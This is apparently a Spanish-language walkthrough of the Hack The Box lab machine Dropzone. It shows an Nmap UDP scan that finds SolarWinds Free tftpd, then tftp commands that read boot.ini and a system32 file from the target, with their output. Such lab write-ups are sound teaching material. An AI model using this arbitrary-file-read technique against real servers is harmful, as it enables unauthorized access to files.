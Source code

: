 En un principio Nmap no nos muestra puertos TCP abiertos, en cambio Nmap muestra un servicio UDP abierto.

```
┌─[ot3ro@parrot]─[~/HTB/Dropzone]
└──╼ $sudo nmap -sU -sV 10.10.10.90 -p69 -Pn -n --script tftp-enum
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-01 17:04 CST
Nmap scan report for 10.10.10.90
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
69/udp open  tftp    SolarWinds Free tftpd
| tftp-enum: 
|_  boot.ini

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.40 seconds

```
El servicio TFTP está identificado como "SolarWinds Free tftpd". Además, el escaneo ha revelado que existe un archivo llamado "boot.ini" en el servidor TFTP, que es un archivo de configuración relacionado con el sistema de arranque en sistemas Windows más antiguos, como Windows XP.
De igual manera El servidor TFTP no maneja adecuadamente las entradas proporcionadas por el usuario. Debido a un manejo insuficiente de las entradas del usuario, es posible que un usuario remoto solicite archivos arbitrarios desde el servidor vulnerable.

```
┌─[ot3ro@parrot]─[~/HTB/Dropzone]
└──╼ $tftp
tftp> connect 10.10.10.90
tftp> get \\boot.ini
Received 211 bytes in 0.2 seconds
tftp> quit 

┌─[ot3ro@parrot]─[~/HTB/Dropzone]
└──╼ $ls
'\\boot.ini'

┌─[ot3ro@parrot]─[~/HTB/Dropzone]
└──╼ $cat \\\\boot.ini 
[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" /noexecute=optin /fastdetect

```
La configuración del archivo 'boot.ini' que se nos muestra, es típica de un sistema con Windows XP Professional instalado como único sistema operativo.

```
tftp> get \Windows\system32\eula.txt eula.txt
Received 41543 bytes in 12.9 seconds


┌─[ot3ro@parrot]─[~/HTB/Dropzone]
└──╼ $head eula.txt 
END-USER LICENSE AGREEMENT FOR MICROSOFT 
SOFTWARE

MICROSOFT WINDOWS XP PROFESSIONAL EDITION 
SERVICE PACK 3

```